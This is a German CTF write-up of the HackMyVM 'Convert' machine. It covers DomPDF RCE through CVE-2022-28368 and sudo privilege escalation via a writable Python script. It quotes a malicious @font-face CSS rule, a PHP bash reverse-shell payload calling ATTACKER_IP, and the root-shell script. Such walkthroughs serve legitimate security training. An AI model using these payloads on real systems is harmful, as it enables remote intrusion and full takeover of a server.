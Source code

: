 # Convert - HackMyVM (Easy)

![Convert Icon](Convert.png)

## Übersicht

*   **VM:** Convert
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Convert)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 7. Mai 2024
*   **Original-Writeup:** https://alientec1908.github.io/Convert_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Convert" von HackMyVM (Schwierigkeitsgrad: Easy) wurde durch die Ausnutzung einer Remote Code Execution (RCE) Schwachstelle in der PDF-Generierungsbibliothek DomPDF (Version 1.2.0, CVE-2022-28368) kompromittiert. Durch das Einschleusen einer präparierten CSS-Datei, die ihrerseits eine manipulierte Font-Datei (mit PHP-Reverse-Shell-Code) von einem externen Server lud, wurde initialer Zugriff als Benutzer `eva` erlangt. Die Privilegienerweiterung zu Root erfolgte durch die Ausnutzung einer unsicheren `sudo`-Regel, die es `eva` erlaubte, ein Python-Skript in ihrem Home-Verzeichnis als Root auszuführen. Dieses Skript konnte manipuliert werden, um eine Root-Shell zu starten.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `dirb`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `wget`
*   `strings`
*   `python3 http.server`
*   `echo`
*   `exiftool`
*   `curl`
*   Online Morse Decoder (nicht im Log, aber erwähnt im Tool-Verzeichnis – hier nicht direkt relevant)
*   `find`
*   `cp`
*   `cat`
*   `md5sum`
*   `pip3` (nicht im Log, aber erwähnt im Tool-Verzeichnis)
*   `python3` (für Shell-Stabilisierung und Exploit)
*   `nc` (netcat)
*   Standard Linux-Befehle (`ls`, `mkdir`, `id`, `sudo`, `rm`, `bash`, `ssh`, `cd`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Convert" erfolgte in diesen Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   Ziel-IP (`192.168.2.119`, Hostname `convert.hmv`) via `arp-scan` und `/etc/hosts` identifiziert.
    *   `nmap` zeigte offene Ports 22 (SSH 9.2p1) und 80 (Nginx 1.22.1, Titel "HTML to PDF").
    *   `dirb` und `gobuster` fanden `/index.php` und das Verzeichnis `/upload/`.
    *   Eine generierte PDF-Datei im `/upload/`-Verzeichnis wurde heruntergeladen. `exiftool` und `strings` zeigten, dass die PDF mit `dompdf 1.2.0 + CPDF` erstellt wurde.
    *   Fehlermeldungen bei der Konvertierung deuteten auf den Webroot-Pfad (`/var/www/html/`) und eine mögliche SSRF-Anfälligkeit hin.

2.  **Initial Access (DomPDF RCE - CVE-2022-28368):**
    *   Die DomPDF-Version 1.2.0 ist anfällig für RCE via CSS Font-Face Injection (CVE-2022-28368).
    *   **Vorbereitung auf Angreifer-Seite:**
        1.  Eine bösartige CSS-Datei (`evil.css`) wurde erstellt, die eine `@font-face`-Regel enthielt, welche eine PHP-Datei von einem Angreifer-Server als Font-Quelle lud (`src: url('http://ATTACKER_IP:9001/evil.php');`).
        2.  Eine PHP-Datei (`evil.php`) wurde erstellt, die eine Bash-Reverse-Shell-Payload enthielt (`<?php system("bash -i >& /dev/tcp/ATTACKER_IP:4444 0>&1'"); ?>`). Um von DomPDF als Font erkannt zu werden, wurde diese Payload in eine legitime `.ttf`-Datei eingebettet oder die Datei wurde als `.php` mit Font-ähnlichem Inhalt gespeichert.
        3.  Ein Python-HTTP-Server wurde auf Port 9001 gestartet, um `evil.css` und `evil.php` bereitzustellen.
        4.  Ein Netcat-Listener wurde auf Port 4444 gestartet, um die Reverse Shell zu empfangen.
    *   **Exploit-Ausführung:**
        1.  Eine `index.html`-Datei wurde auf dem Angreifer-Server erstellt, die nur einen Link zur `evil.css` enthielt: ``.
        2.  Ein weiterer Python-HTTP-Server wurde auf Port 8000 gestartet, um diese `index.html` bereitzustellen.
        3.  Die URL dieser `index.html` (`http://ATTACKER_IP:8000/index.html`) wurde an die Konvertierungsfunktion von `convert.hmv` übergeben (impliziert durch die Server-Logs).
    *   DomPDF auf `convert.hmv` lud die `index.html` vom Angreifer, welche die `evil.css` nachlud. Die `evil.css` wies DomPDF an, `evil.php` (die PHP-Reverse-Shell) als Font zu laden und auszuführen.
    *   Eine Reverse Shell als Benutzer `eva` wurde erfolgreich etabliert.

3.  **Privilege Escalation (eva zu root via sudo python):**
    *   Die Shell als `eva` wurde stabilisiert und SSH-Zugriff eingerichtet.
    *   Die User-Flag wurde aus `/home/eva/user.txt` gelesen.
    *   Im Home-Verzeichnis von `eva` befand sich ein Python-Skript `pdfgen.py`.
    *   `sudo -l` für `eva` zeigte: `(ALL : ALL) NOPASSWD: /usr/bin/python3 /home/eva/pdfgen.py *`.
    *   Da `eva` Schreibrechte auf ihr eigenes Home-Verzeichnis und somit auf `pdfgen.py` hatte, wurde die Datei manipuliert.
    *   Der Inhalt von `/home/eva/pdfgen.py` wurde durch `import os; os.system("/bin/bash")` ersetzt.
    *   Durch Ausführung von `sudo -u root /usr/bin/python3 /home/eva/pdfgen.py beliebiger_text` wurde das manipulierte Skript als `root` ausgeführt, was zu einer Root-Shell führte.
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Veraltete Software (DomPDF 1.2.0):** Anfällig für RCE (CVE-2022-28368) durch CSS Font-Face Injection.
*   **Server-Side Request Forgery (SSRF) in PDF-Generierung:** Die Anwendung versuchte, URLs intern aufzulösen, was den Exploit ermöglichte.
*   **Unsichere `sudo`-Konfiguration:** Erlaubte die Ausführung eines Python-Skripts, auf das der Benutzer Schreibrechte hatte, als `root`. Dies ist ein klassischer Vektor für Privilege Escalation.
*   **Informationslecks:** Fehlermeldungen gaben den Webroot-Pfad preis.
*   **Directory Browsing (impliziert durch Upload-Verzeichnis-Struktur).**

## Flags

*   **User Flag (`/home/eva/user.txt`):** `f2be48d6f922bfc0a9bf45b22887c10d`
*   **Root Flag (`/root/root.txt`):** `1cc872dad04d177e6732abbedf1e525b`

## Tags

`HackMyVM`, `Convert`, `Easy`, `DomPDF`, `CVE-2022-28368`, `RCE`, `CSS Injection`, `SSRF`, `Web`, `Sudo Privilege Escalation`, `Python`, `Linux`
